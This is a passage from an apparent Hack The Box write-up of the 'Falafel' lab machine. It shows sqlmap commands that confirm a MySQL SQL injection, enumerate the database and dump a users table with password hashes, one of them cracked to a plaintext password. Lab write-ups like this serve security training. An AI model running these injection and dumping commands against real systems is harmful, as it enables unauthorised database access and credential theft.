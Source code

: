 This confirms the site has a SQL injection vulnerability and also that the back end database is MySQL. I can now specify the type of database to speed up my subsequent SQLi attacks.
<div class="alert alert-success"><strong>Confirmed</strong><br>
    SQL injection vulnerabiltiy
</div>

With SQLi now on the table, I dump the databases

```bash
root@kali:~/htb/falafel# sqlmap -r login.req --level=4 --risk=3 -t 10 --dbms=mysql --dbs --batch
...
available databases [2]:
[*] falafel
[*] information_schema
...
```

Next, the tables from the `falafel` database

```bash
root@kali:~/htb/falafel# sqlmap -r login.req --level=4 --risk=3 -t 10 --dbms=mysql --D falafel --tables --batch
...
Database: falafel
[1 table]
+-------+ 
| users |
+-------+ 
```

And finally, dump the contents of the `users` table
```bash
root@kali:~/htb/falafel# sqlmap -r login.req --level=4 --risk=3 -t 10 --dbms=mysql --D falafel -T users --dump --batch
...
Database: falafel                                                          
Table: users
[2 entries]
+----+--------+----------+---------------------------------------------+
| ID | role   | username | password                                    |
+----+--------+----------+---------------------------------------------+
| 1  | admin  | admin    | 0e462096931906507119562988736854            |
| 2  | normal | chris    | d4ee02a22fc872e36d9e3751ba72ddc8 (juggling) |
+----+--------+----------+---------------------------------------------+
```

`sqlmap` was even kind enough to crack a password for me. Handy!

<div class="alert alert-success"><strong>Password cracked!</strong><br>
    chris:juggling
</div>

<p align="center">
    <img src="https://media.giphy.com/media/TOWeGr70V2R1K/giphy.gif">
</p>
